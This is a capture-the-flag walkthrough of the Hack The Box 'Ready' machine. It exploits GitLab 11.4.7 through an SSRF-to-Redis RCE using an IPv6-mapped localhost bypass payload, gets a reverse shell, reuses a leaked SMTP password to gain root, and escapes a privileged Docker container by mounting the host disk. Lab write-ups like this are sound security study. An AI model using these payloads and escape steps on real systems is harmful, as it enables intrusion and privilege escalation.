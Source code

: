```yaml
---
layout: page
title: Ready
description: Write-up
dropdown: HTB-BOXES
priority: 3
---
```

# Ready Walkthrough
![](https://i.ibb.co/dKTF8YB/image.png)



# []()Methodology

* Nmap scan.
* Nginx enumertation.
* Gitlab RCE via SSRF.
* Getting reverse shell.
* Enumerate Ready using LinPEAS.
* Escaping Docker Privileged Containers.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 5080 for nginx.**


![](https://i.ibb.co/yVnQLPW/image.png)

### Check the Nginx service:

![](https://i.ibb.co/6s9FbLF/image.png)

> * It's a Gitlab Service run on Nginx.

> * I registered an account y4h1a:y123456789 

> * It's Version 11.4.7 so i will try to find a CVE for this version.

![](https://i.ibb.co/fFgVMw0/image.png)

> **I found an exploit to get RCE via SSRF vulnerability.**

> * You can do it Manually using this [Method](https://github.com/jas502n/gitlab-SSRF-redis-RCE).

> * I did it with this [exploit](https://github.com/ctrlsam/GitLab-11.4.7-RCE).

* by reading the exploit..

```python
username = args.u
password = args.p
gitlab_url = args.g + ":5080"
local_ip = args.l
local_port = args.P

------------
# Create project
import_url = "git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2F.git"
project_name = f'project{random.randrange(1, 10000)}'
project_url = f'{gitlab_url}/{username}'

```

> **We will bypass ssrf protection using this payload `[0:0:0:0:0:ffff:127.0.0.1]` and get the reverse shell in our listner. this is the exploit will do.**




![](https://i.ibb.co/4fwTjjV/image.png)


![](https://i.ibb.co/V9RW1Y7/image.png)

### Got the User flag!

![](https://i.ibb.co/NjrQ57w/image.png)


#### Time for enumerate Ready machine.

> * I upload [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to automate the enumeration process for Ready box.

**After it finished i got this in backup files.**


![](https://i.ibb.co/prF3nms/image.png)

```ruby
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"

```
> **I will use this smtp password to switch to root permissions.**


![](https://i.ibb.co/8Mcq2fr/image.png)


![](https://i.ibb.co/FJG9WmH/image.png)

> * Now i'm in docker, so i need to escape to esclate my priviliges.

> * Found this useful [blog](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1).

```html
mkdir /tmp/y4h1a
mount /dev/sda2 /tmp/y4h1a
mount /dev/sda2 y4h1a
cat /tmp/y4h1a/root/root.txt
```



![](https://i.ibb.co/4jL8HfK/image.png)

# RooTed

<img src="http://www.hackthebox.eu/badge/image/209461" alt="Hack The Box">
![]()


![]()

![]()

![]()


![]()


![]()

![]()

![]()

![]()

![]()

![]()
![]()

![]()
